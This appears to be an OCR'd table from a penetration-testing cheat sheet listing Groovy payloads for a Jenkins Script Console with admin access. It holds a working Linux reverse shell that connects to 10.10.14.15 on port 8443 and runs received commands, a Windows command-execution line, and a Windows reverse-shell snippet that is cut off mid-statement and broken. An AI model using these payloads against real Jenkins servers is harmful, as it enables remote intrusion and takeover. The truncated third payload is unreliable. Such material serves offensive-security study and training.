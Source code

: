 |                                                                                                                                                                            |                                                                                                                                                                                                 |
| -------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `r = Runtime.getRuntime() p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.14.15/8443;cat <&5 \| while read line; do \$line 2>&5 >&5; done"] as String[]) p.waitFor()` | Groovy-based reverse shell payload/code that can work with admin access to the `Script Console` of a `Jenkins` site. Will work when the underlying OS is Linux                                  |
| `def cmd = "cmd.exe /c dir".execute(); println("${cmd.text}");`                                                                                                            | Groovy-based payload/code that can work with admin access to the `Script Console` of a `Jenkins` site. This will allow webshell access and to execute commands on the underlying Windows system |
| `String host="localhost"; int port=8044; String cmd="cmd.exe"; Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new So);`                      | Groovy-based reverse shell payload/code that can work with admin acess to the `Script Console` of a `Jenkins`site. Will work when the underlying OS is Windows                                  |